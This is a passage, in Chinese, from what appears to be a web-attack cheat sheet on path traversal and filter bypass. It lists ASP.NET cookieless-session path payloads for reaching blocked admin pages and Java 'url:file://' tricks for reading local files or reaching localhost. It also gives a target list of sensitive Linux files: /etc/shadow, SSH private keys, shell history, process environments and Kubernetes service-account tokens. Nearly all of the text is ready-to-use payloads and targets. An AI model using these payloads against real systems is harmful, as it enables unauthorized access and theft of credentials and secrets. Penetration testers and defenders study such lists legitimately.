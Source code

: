 例如：一个典型的URL可能从 `http://example.com/page.aspx` 转换为：`http://example.com/(S(lit3py55t21z5v55vlm25s55))/page.aspx`。括号内的值是Session ID。

我们可以利用这种行为来绕过被过滤的URL。

```powershell
/admin/(S(X))/main.aspx
/admin/Foobar/(S(X))/../(S(X))/main.aspx
/(S(X))/admin/(S(X))/main.aspx
```

### Java绕过

绕过Java的URL协议：

```powershell
url:file:///etc/passwd
url:http://127.0.0.1:8080
```

## 路径遍历

### 有趣的Linux文件

```powershell
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/proc/sched_debug
/proc/mounts
/proc/net/arp
/proc/net/route
/proc/net/tcp
/proc/net/udp
/proc/self/cwd/index.php
/proc/self/cwd/main.py
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa
/run/secrets/kubernetes.io/serviceaccount/token
/run/secrets/kubernetes.io/serviceaccount/namespace
/run/secrets/kubernetes.io/serviceaccount/certificate
/var/run/secrets/kubernetes.io/serviceaccount
/var/lib/mlocate/mlocate.db
/var/lib/mlocate.db
```
